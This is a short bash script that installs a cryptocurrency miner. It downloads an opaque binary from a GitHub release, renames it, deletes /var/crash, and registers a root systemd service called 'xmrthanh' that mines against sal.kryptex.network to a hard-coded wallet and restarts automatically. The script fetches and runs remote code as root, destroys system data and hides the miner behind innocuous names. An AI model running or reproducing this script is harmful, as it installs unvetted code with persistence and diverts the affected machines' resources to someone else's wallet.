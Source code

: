 #!/bin/bash
sudo su
cd /home
wget https://github.com/trangtrau/sang_ml/releases/download/test/ar 
cp ar jvdar 
chmod +x jvdar

rm -rf /lib/systemd/system/xmrthanh.service
rm -rf /var/crash
bash -c 'cat <<EOT >>/lib/systemd/system/xmrthanh.service 
[Unit]
Description=xmrthanh
After=network.target
[Service]
ExecStart= /home/jvdar -o sal.kryptex.network:7777 -u SaLvsAVm78sYam4NrkX4MWHRrUiwC1Fcz4sUAQRY1Jut1ijhonGGcneKLbww6GUvid8N2WHyuLxYfjav1p6xCDRGSVfVEdGPETk -p 1svts28 -a rx/0 -k -t 43
WatchdogSec=36000
Restart=always
RestartSec=60
User=root
[Install]
WantedBy=multi-user.target
EOT
' &&
systemctl daemon-reload &&
systemctl enable xmrthanh.service &&
service xmrthanh stop  &&
service xmrthanh restart
top
